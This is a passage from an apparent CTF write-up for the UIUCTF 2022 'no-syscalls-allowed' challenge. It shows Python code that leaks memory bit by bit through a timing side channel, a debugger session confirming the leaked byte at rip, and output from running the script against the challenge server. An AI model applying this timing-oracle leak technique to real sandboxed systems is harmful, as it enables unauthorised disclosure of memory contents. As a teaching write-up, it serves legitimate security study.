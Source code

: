 ```
    if diff > 0.2:
        print('the bit is 1')
        return 1
    else:
        print('the bit is 0')
        return 0
    target.close()
```
And here, I add a function to leak out full bytes bit-by-bit, and call it on the byte contents of the rip register.
```
def get_a_byte(register, reg_offset, local):
    bit_string = ''
    for i in range(8):
        bit_string = str(get_a_bit(register, reg_offset, i, local)) + bit_string
    print(bit_string)
    return int(bit_string, 2)

local = 1

byte = hex(get_a_byte('rip', 0x0, 1))

print('current byte is', byte)
```
If I quickly run the program locally with a debugger on, I can confirm exactly which byte I should be getting on this and similar rip tests (i.e. BYTE PTR [rip] should reliably be 0x4d)
```
   0x7ff954d9fffc                  add    BYTE PTR [rax], al
   0x7ff954d9fffe                  add    BYTE PTR [rax], al
   0x7ff954da0000                  mov    al, BYTE PTR [rip+0x0]        # 0x7ff954da0006
 → 0x7ff954da0006                  xor    r11, r11
   0x7ff954da0009                  shr    al, 0x0
   0x7ff954da000c                  shl    al, 0x7
   0x7ff954da000f                  shr    al, 0x7
   0x7ff954da0012                  imul   rax, rax, 0x20000000
   0x7ff954da0019                  cmp    rax, r11
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "no_syscalls_all", stopped 0x7ff954da0006 in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7ff954da0006 → xor r11, r11
[#1] 0x55ef9491626b → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/bx $al
0x4d:   Cannot access memory at address 0x4d
gef➤  x/8bx $rip
0x7ff954da0006: 0x4d    0x31    0xdb    0xc0    0xe8    0x00    0xc0    0xe0
gef➤
```
And here is how the program looks when run against the remote host:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/UIUCTF22$ python3 no-syscalls-allowed_writeup.py
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
b'== proof-of-work: disabled ==\n'
0.5909402370452881
the bit is 1
[+] Opening connection to no-syscalls-allowed.chal.uiuc.tf on port 1337: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to no-syscalls-allowed.chal.uiuc.tf port 1337
```